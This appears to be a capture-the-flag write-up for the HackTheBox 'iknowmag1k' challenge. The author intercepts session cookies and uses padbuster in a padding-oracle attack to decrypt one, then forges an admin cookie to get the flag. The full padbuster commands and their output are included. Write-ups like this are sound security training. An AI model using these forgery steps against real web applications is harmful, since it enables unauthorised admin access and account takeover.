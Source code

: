 # iknowmag1k challenge
## Walkthrough on how I did it.

**(The main goal: Can you get to the profile page of the admin?)**

**Step one - making an account and intercepthing what is going on**
I simply made a login and logged in while intercepting traffic using Burpsuite.
What I saw was while refreshing: docker.hackthebox.eu:PORT/profile.php - I saw 3 cookies:


1.Cookie:	PHPSESSID	3ol2uopq472ov8sigsbmolh9b3


2. Cookie:	__auc	68adfe0116782dca854895bb93b


3. Cookie:	iknowmag1k	q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D


This was the only thing the really stood out to me, since there was nothing else that seemed 'weird'.
After this I thought: "Hmmm, maybe I can decode this and find some sort of thing that can help me get to the admin page!"

**Step two - find out how to crack this cookie and figuring out what to do with it.**
So I googled for a bit and found out that this sort of cryptography is called oracle padding or something like that, and I quickly saw that it was possible to crack this with a tool called: 'padbuster'.
I googled padbuster and found some basic info on how to use this, and figured out I needed the PHPSESHSSID and the iknowmag1k cookie and the url.

$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0


**And here is what I got: **


**Finished:**

[+] Decrypted value (ASCII): {"user":"anders","role":"user"}


**So I figured:** "That's it! Now I just need to change the role from "user" to "admin", and then encode it again and send that as a response!"


**So that is what I did:**
$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"


**Which gave me:**
** Finished **
[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
So I simply just changed the "iknowmag1k" cookie with the new one and then got the flag.

